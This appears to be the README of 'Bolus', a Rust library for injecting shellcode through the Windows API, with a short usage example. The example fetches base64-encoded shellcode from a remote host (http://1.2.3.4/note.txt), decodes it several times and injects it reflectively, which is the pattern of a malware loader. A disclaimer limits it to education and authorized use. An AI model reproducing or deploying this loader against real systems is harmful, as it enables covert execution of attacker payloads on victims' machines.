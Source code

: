 # Bolus

Library for shellcode injection using the Windows API.

**WARNING: This code is for educational purposes only. The creator strongly urges you to only use this code in authorized contexts. Don't do crimes.**

## Usage


The following is an example implementation, which can be observed in [RustyNeedle](https://github.com/RustyNeedle):

```rust
use bolus::{
    inject,
    load,
    injectors::{
        InjectionType,
        InjectorType
    }
};

/// The URL where shellcode will be downloaded from
const URL: &str = "http://1.2.3.4/note.txt";
/// The # of base64 iterations to decode
const B64_ITERATIONS: usize = 3;

fn main() -> Result<(), String> {
    let injector = load(
        InjectorType::Base64Url((
            URL.to_string(),
            B64_ITERATIONS
        ))
    )?;
    inject(
        injector,
        InjectionType::Reflect,
        true
    )
}
```

## Documentation

Full docs at [docs.rs](https://docs.rs/bolus/0.1.1/bolus/)]
